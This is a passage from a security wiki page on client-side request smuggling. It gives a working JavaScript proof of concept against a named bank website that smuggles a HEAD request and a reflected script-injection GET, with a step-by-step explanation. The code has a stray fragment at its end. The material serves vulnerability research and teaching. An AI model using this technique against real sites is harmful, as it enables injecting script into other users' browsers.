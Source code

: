 ## Exploit Examples

### Stacked HEAD example

* **Coloured exploit**

![](<../../.gitbook/assets/image (2) (3).png>)

* **JS exploit**

```javascript
fetch('https://www.capitalone.ca/assets', {
    method: 'POST',
    // use a cache-buster to delay the response
    body: `HEAD /404/?cb=${Date.now()} HTTP/1.1\r\nHost: www.capitalone.ca\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
    credentials: 'include',
    mode: 'cors' // throw an error instead of following redirect
}).catch(() => {
    location = 'https://www.capitalone.ca/'
})va
```

Explanation:

* **Abuse of CL.0** in /assets (it redirects to /assets/ and doesn't check the CL)
* **Smuggle** a **HEAD** request (because HEAD responses still contains a content-length)
* **Smuggle** a **GET** request whose **content** is going be **reflected** in the response with the payload.
  * Because of the **content-length of the HEAD** req, the **response** of this request will be the **body of the HEAD req**
* Set **cors mode**. Normally this isn't done, but in this case the **response** of the server to de **initial** **POST** is a **redirect** that if **followed** the **exploit won't work**. Therefore, **cors mode** is used to **trigger** an **error** and **redirect** the victim with the **`catch`**.
